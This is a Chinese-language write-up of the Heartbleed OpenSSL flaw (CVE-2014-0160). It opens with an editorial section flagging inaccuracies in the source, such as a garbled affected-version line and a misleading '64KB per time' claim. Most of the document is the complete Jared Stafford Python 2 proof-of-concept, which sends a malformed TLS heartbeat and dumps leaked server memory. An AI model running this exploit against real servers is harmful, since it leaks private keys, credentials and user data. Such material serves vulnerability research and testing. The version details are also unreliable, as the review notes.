

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：1.0.2-beta与1.0.1–f连写且beta范围不准确，缺安全版本

代码与实验材料：完整Jared Stafford Python2脚本，.decode(hex)、xrange、print语法需明示；与279相同握手和检测限制

来源证据范围：代码保留作者署名，无官方或上游链接

- **结论使用边界（1）**：每次64KB不是固定速度；依据：正文每次64KB的速度混淆泄漏上限与速率，实际请求/响应长度依实现。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（2）**：历史脚本和版式未注明；依据：图片后重复资源路径，Python2运行时没有说明；影响版本串接。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2014-0160）OpenSSL 心脏出血漏洞
=====================================

一、漏洞简介
------------

Heartbleed漏洞，这项严重缺陷(CVE-2014-0160)的产生是由于未能在memcpy()调用受害用户输入内容作为长度参数之前正确进行边界检查。攻击者可以追踪OpenSSL所分配的64KB缓存、将超出必要范围的字节信息复制到缓存当中再返回缓存内容，这样一来受害者的内存内容就会以每次64KB的速度进行泄露。

二、漏洞影响
------------

OpenSSL 1.0.2-betaOpenSSL 1.0.1 -- OpenSSL 1.0.1f

三、复现过程
------------

### poc

OpenSSL心脏出血漏洞/media/rId25.jpg)

    #!/usr/bin/python

    # Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
    # The author disclaims copyright to this source code.

    import sys
    import struct
    import socket
    import time
    import select
    import re
    from optparse import OptionParser

    options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
    options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

    def h2bin(x):
        return x.replace(' ', '').replace('\n', '').decode('hex')

    hello = h2bin('''
    16 03 02 00  dc 01 00 00 d8 03 02 53
    43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
    bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
    00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
    00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
    c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
    c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
    c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
    c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
    00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
    03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
    00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
    00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
    00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
    00 0f 00 01 01                                  
    ''')

    hb = h2bin(''' 
    18 03 02 00 03
    01 40 00
    ''')

    def hexdump(s):
        for b in xrange(0, len(s), 16):
            lin = [c for c in s[b : b + 16]]
            hxdat = ' '.join('%02X' % ord(c) for c in lin)
            pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
            print '  %04x: %-48s %s' % (b, hxdat, pdat)
        print

    def recvall(s, length, timeout=5):
        endtime = time.time() + timeout
        rdata = ''
        remain = length
        while remain > 0:
            rtime = endtime - time.time() 
            if rtime < 0:
                return None
            r, w, e = select.select([s], [], [], 5)
            if s in r:
                data = s.recv(remain)
                # EOF?
                if not data:
                    return None
                rdata += data
                remain -= len(data)
        return rdata
            

    def recvmsg(s):
        hdr = recvall(s, 5)
        if hdr is None:
            print 'Unexpected EOF receiving record header - server closed connection'
            return None, None, None
        typ, ver, ln = struct.unpack('>BHH', hdr)
        pay = recvall(s, ln, 10)
        if pay is None:
            print 'Unexpected EOF receiving record payload - server closed connection'
            return None, None, None
        print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
        return typ, ver, pay

    def hit_hb(s):
        s.send(hb)
        while True:
            typ, ver, pay = recvmsg(s)
            if typ is None:
                print 'No heartbeat response received, server likely not vulnerable'
                return False

            if typ == 24:
                print 'Received heartbeat response:'
                hexdump(pay)
                if len(pay) > 3:
                    print 'WARNING: server returned more data than it should - server is vulnerable!'
                else:
                    print 'Server processed malformed heartbeat, but did not return any extra data.'
                return True

            if typ == 21:
                print 'Received alert:'
                hexdump(pay)
                print 'Server returned error, likely not vulnerable'
                return False

    def main():
        opts, args = options.parse_args()
        if len(args) < 1:
            options.print_help()
            return

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        print 'Connecting...'
        sys.stdout.flush()
        s.connect((args[0], opts.port))
        print 'Sending Client Hello...'
        sys.stdout.flush()
        s.send(hello)
        print 'Waiting for Server Hello...'
        sys.stdout.flush()
        while True:
            typ, ver, pay = recvmsg(s)
            if typ == None:
                print 'Server closed connection without sending Server Hello.'
                return
            # Look for server hello done message.
            if typ == 22 and ord(pay[0]) == 0x0E:
                break

        print 'Sending heartbeat request...'
        sys.stdout.flush()
        s.send(hb)
        hit_hb(s)

    if __name__ == '__main__':
        main()
